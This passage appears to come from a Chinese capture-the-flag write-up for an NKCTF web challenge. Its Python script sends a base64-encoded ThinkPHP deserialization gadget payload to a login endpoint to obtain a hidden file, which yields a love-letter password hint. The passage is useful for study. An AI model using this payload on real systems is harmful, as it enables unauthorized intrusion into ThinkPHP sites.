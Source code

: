 ```python  
import requests  
import time  
  
url1 = &#34;http://127.0.0.1:3101/?user/index/loginSubmit&#34;  
url2 = &#34;http://89519612-bb1c-465b-921b-d01e8a3ce7e4.node.nkctf.yuzhian.com.cn/?user/index/loginSubmit&#34;  
burp0_headers = {&#34;sec-ch-ua&#34;: &#34;\&#34;Chromium\&#34;;v=\&#34;117\&#34;, \&#34;Not;A=Brand\&#34;;v=\&#34;8\&#34;&#34;, &#34;Accept&#34;: &#34;application/json, text/javascript, */*; q=0.01&#34;, &#34;Content-Type&#34;: &#34;application/x-www-form-urlencoded; charset=UTF-8&#34;, &#34;X-Requested-With&#34;: &#34;XMLHttpRequest&#34;, &#34;sec-ch-ua-mobile&#34;: &#34;?0&#34;, &#34;User-Agent&#34;: &#34;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36&#34;, &#34;sec-ch-ua-platform&#34;: &#34;\&#34;macOS\&#34;&#34;, &#34;Origin&#34;: &#34;http://localhost:3101&#34;, &#34;Sec-Fetch-Site&#34;: &#34;same-origin&#34;, &#34;Sec-Fetch-Mode&#34;: &#34;cors&#34;, &#34;Sec-Fetch-Dest&#34;: &#34;empty&#34;, &#34;Referer&#34;: &#34;http://localhost:3101/&#34;, &#34;Accept-Encoding&#34;: &#34;gzip, deflate, br&#34;, &#34;Accept-Language&#34;: &#34;zh-CN,zh;q=0.9&#34;, &#34;Connection&#34;: &#34;close&#34;}  
burp0_data = {&#34;name&#34;: &#34;guest&#34;, &#34;password&#34;: &#34;TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE2OiJ0aGlua1xDb2xsZWN0aW9uIjoxOntzOjg6IgAqAGl0ZW1zIjtPOjEwOiJ0aGlua1xWaWV3IjoyOntzOjc6IgAqAGRhdGEiO2E6MTp7czo4OiJMb2dpbm91dCI7TzoxMToidGhpbmtcRGVidWciOjA6e319czo2OiJlbmdpbmUiO2E6MTp7czo0OiJ0aW1lIjtzOjU6IjEwMDg2Ijt9fX19fQ==&#34;}  
r=requests.post(url1, headers=burp0_headers, data=burp0_data)  
r=requests.post(url2, headers=burp0_headers, data=burp0_data)  
print(r.status_code)  
r=requests.post(url1, headers=burp0_headers, data=burp0_data)  
```  
得到文件名  
`7c5d4e0dc66c95954008f97b3f0cf6fa`  
`https://89519612-bb1c-465b-921b-d01e8a3ce7e4.node.nkctf.yuzhian.com.cn/app/controller/user/think/7c5d4e0dc66c95954008f97b3f0cf6f`  
访问即可得到hint  
```php  
亲爱的Chu0，  
  
我怀着一颗激动而充满温柔的心，写下这封情书，希望它能够传达我对你的深深情感。或许这只是一封文字，但我希望每一个字都能如我心情般真挚。  
  
在这个瞬息万变的世界里，你是我生命中最美丽的恒定。每一天，我都被你那灿烂的笑容和温暖的眼神所吸引，仿佛整个世界都因为有了你而变得更加美好。你的存在如同清晨第一缕阳光，温暖而宁静。  
  
或许，我们之间存在一种特殊的联系，一种只有我们两个能够理解的默契。  
  
  
  
&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;我曾听说，密码的明文，加上心爱之人的名字(Chu0)，就能够听到游客的心声。&gt;&gt;&gt;&gt;&gt;&gt;&gt;&gt;  
  
  
  
而我想告诉你，你就是我心中的那个游客。每一个与你相处的瞬间，都如同解开心灵密码的过程，让我更加深刻地感受到你的独特魅力。  
  
你的每一个微笑，都是我心中最美丽的音符；你的每一句关心，都是我灵魂深处最温暖的拥抱。在这个喧嚣的世界中，你是我安静的港湾，是我倚靠的依托。我珍视着与你分享的每一个瞬间，每一段回忆都如同一颗珍珠，串联成我生命中最美丽的项链。  
  
或许，这封情书只是文字的表达，但我愿意将它寄予你，如同我内心深处对你的深深情感。希望你能感受到我的真挚，就如同我每一刻都在努力解读心灵密码一般。愿我们的故事能够继续，在这段感情的旅程中，我们共同书写属于我们的美好篇章。  
  
  
  
POST /?user/index/loginSubmit HTTP/1.1  
Host: 192.168.128.2  
Content-Length: 162  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
```